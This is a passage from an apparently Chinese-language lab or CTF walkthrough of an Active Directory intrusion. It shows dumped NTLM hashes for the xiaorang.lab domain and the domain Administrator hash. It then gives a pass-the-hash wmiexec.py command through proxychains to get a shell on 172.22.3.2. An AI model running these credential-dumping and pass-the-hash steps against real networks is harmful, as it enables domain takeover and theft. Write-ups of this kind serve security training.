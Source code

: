 ```bash
xiaorang.lab\SM_015b052ab8324b3fa:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_9bd6f16aa25343e68:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_68af2c4169b54d459:1133:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\HealthMailbox8446c5b:1135:aad3b435b51404eeaad3b435b51404ee:fed1d348cd1f50aaf3e70a2814ce0c0e:::
xiaorang.lab\HealthMailbox0d5918e:1136:aad3b435b51404eeaad3b435b51404ee:05977f338f3f1407e6628277530a2ffd:::
xiaorang.lab\HealthMailboxeda7a84:1137:aad3b435b51404eeaad3b435b51404ee:1e89e23e265bb7b54dc87938b1b1a131:::
xiaorang.lab\HealthMailbox33b01cf:1138:aad3b435b51404eeaad3b435b51404ee:0eff3de35019c2ee10b68f48941ac50d:::
xiaorang.lab\HealthMailbox9570292:1139:aad3b435b51404eeaad3b435b51404ee:e434c7db0f0a09de83f3d7df25ec2d2f:::
xiaorang.lab\HealthMailbox3479a75:1140:aad3b435b51404eeaad3b435b51404ee:c43965ecaa92be22c918e2604e7fbea0:::
xiaorang.lab\HealthMailbox2d45c5b:1141:aad3b435b51404eeaad3b435b51404ee:4822b67394d6d93980f8e681c452be21:::
xiaorang.lab\HealthMailboxec2d542:1142:aad3b435b51404eeaad3b435b51404ee:147734fa059848c67553dc663782e899:::
xiaorang.lab\HealthMailboxf5f7dbd:1143:aad3b435b51404eeaad3b435b51404ee:e7e4f69b43b92fb37d8e9b20848e6b66:::
xiaorang.lab\HealthMailbox67dc103:1144:aad3b435b51404eeaad3b435b51404ee:4fe68d094e3e797cfc4097e5cca772eb:::
xiaorang.lab\HealthMailbox320fc73:1145:aad3b435b51404eeaad3b435b51404ee:0c3d5e9fa0b8e7a830fcf5acaebe2102:::
xiaorang.lab\Lumia:1146:aad3b435b51404eeaad3b435b51404ee:862976f8b23c13529c2fb1428e710296:::
Zhangtong:1147:aad3b435b51404eeaad3b435b51404ee:22c7f81993e96ac83ac2f3f1903de8b4:::
XIAORANG-WIN16$:1000:aad3b435b51404eeaad3b435b51404ee:7976f5ec5af95a3d0ffd94206520f401:::
XIAORANG-EXC01$:1103:aad3b435b51404eeaad3b435b51404ee:fd8408d2e99712fd9c0e3f9ff5a4a68a:::
XIAORANG-PC$:1104:aad3b435b51404eeaad3b435b51404ee:d8271e9779f091986a5a5219ab4f51dc:::
[*] Cleaning up...
```

找到域管理员的哈希

```bash
xiaorang.lab\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7acbc09a6c0efd81bfa7d5a1d4238beb:::
```

用这个哈希传递攻击，进一下 shell

```bash
proxychains python3 wmiexec.py xiaorang.lab/Administrator@172.22.3.2 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -dc-ip 172.22.3.2
```

[![](assets/1707954377-b29f659404fdb2d4a9d3b8b8f8fb081d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173837-2c3174c0-c341-1.png)
